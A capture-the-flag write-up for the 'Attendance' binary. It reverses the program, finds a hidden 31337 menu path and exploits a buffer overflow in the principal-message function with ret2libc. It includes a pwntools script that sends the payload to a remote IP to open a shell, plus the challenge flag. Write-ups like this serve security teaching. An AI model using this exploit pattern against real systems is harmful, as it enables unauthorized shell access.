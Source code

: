 # Attendance

![](./img/1.png#center)

I will first look the file with binaryninja.

The main function :

![](./img/2.png#center)

You can see that the binary ask us an action. If I go down a little in the main function, I can see that the input I will give to the binary will be compared. For example if my entry is 2, then we’ll call student 2. If I enter 3, we’ll call student 3,…

![](./img/3.png#center)

So let’s try if it works :

![](./img/4.png#center)

We can see that it is working and that we are leaving the program directly. Let’s go back to examine the binary, a comparison draws my attention below the students in the main function :

![](./img/5.png#center)

If my entry is equal to 0x7a69(31337 in decimal) we jump to the function called « principal ». Let’s take a look at this function :

![](./img/6.png#center)

As you can see, we can leave a message with the principal, so we’re gonna try this :

![](./img/7.png#center)

The vulnerability will therefore be at the moment when we leave the message to the principal. I will now use the ret2libc vulnerability. To use this vulnerability we need:

**Padding + p system + p exit + p ‘/bin/sh’**

after a while, I arrived at 41 in padding, to find the system and exit address I have to run the binary with gdb, put a breakpoint on the main. Then using these commands I get the addresses:
**p system**
**p exit**

![](./img/8.png#center)

Now I just need to find the address of the string « /bin/sh » in the binary. For that I go back to look around BinaryNinja and I look at the function bring_students_to_school, and I see my « /bin/sh », it only remains for me to find its address. With objdump I find the address of the function :

![](./img/9.png#center)

Now that we have everything we juste need a script to automate the pwn :

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *
import struct

p = remote("89.38.210.128", 31337)
Call = p.recvuntil("Call>")
print(Call)
payload ="31337"
p.send(payload)
p.recv(1024)
p.send("A"*41+p32(0xf7df67d0)+p32(0xf7de9b10)+p32(0x08048660))
p.interactive()
#cat /home/attendance/flag
#timctf{l1ttl3_th1ngs_m4k3_b1g_th1ngs_h4pp3n}
```

![](./img/10.png#center)